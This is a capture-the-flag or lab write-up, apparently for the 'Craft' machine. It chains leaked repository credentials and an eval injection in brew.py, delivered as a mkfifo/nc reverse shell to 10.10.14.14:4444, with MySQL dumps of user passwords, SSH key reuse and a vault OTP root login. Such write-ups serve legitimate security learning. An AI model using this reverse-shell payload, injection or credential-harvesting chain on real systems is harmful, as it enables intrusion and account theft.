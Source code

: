 first we found 2 subdomains, in gogs subdomain we found api app, where we found credentials for authentificate 
![[Pasted image 20250209222651.png]]


dinesh:4aUh0A8PbVJxgd

we start logining in api app, /api/auth/login
and get JWT tokens:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNzM5MTc0NTE2fQ.au6KkSfsPnXC2O3Yioc9u_FHkELxHV6AV_KDBXt0rTQ


we found vulnerable function in brew.py
![[Pasted image 20250210132122.png]]

so we download test.py script, and add import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
for disable invalid cerificate warnings
and add this command to get shell 
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f')"
and run this script, we get access
in api shell we found credentials for mtsql database
/opt/app/craft_api/settings.py

MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'

then we download script /opt/app/dbtest.py
modify them, use this command: 
        sql = "SELECT GROUP_CONCAT(TABLE_NAME,TABLE_SCHEMA) from INFORMATION_SCHEMA.TABLES where t>
and download on api host
result:
![[Pasted image 20250211113130.png]]

next payload:
sql = "SELECT GROUP_CONCAT(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where table_name='user'"
result:
![[Pasted image 20250211113401.png]]

third payload:
sql = "SELECT GROUP_CONCAT(id,username,password) from craft.user"

result:
{'GROUP_CONCAT(id,username,password)': '1 dinesh 4aUh0A8PbVJxgd,4 ebachman llJ77D8QFkLPQB,5 gilfoyle ZEU3N8WNM2rh4T'}

we login into gogs with credentials gilfoyle ZEU3N8WNM2rh4T
and found .ssh folder with id_rsa
![[Pasted image 20250211120826.png]]
![[Pasted image 20250211120832.png]]
![[Pasted image 20250211120847.png]]
Enter passphrase for key 'id_rsa': ZEU3N8WNM2rh4T

we found .vault-token so we can try get access by using vault

we found secrets.sh in craft-infra
![[Pasted image 20250211151635.png]]
so we cat generate next command to get root access
vault ssh -role root_otp -mode otp root@10.10.10.110
 The SSH password is the OTP given by vault
 ![[Pasted image 20250211152928.png]]
 
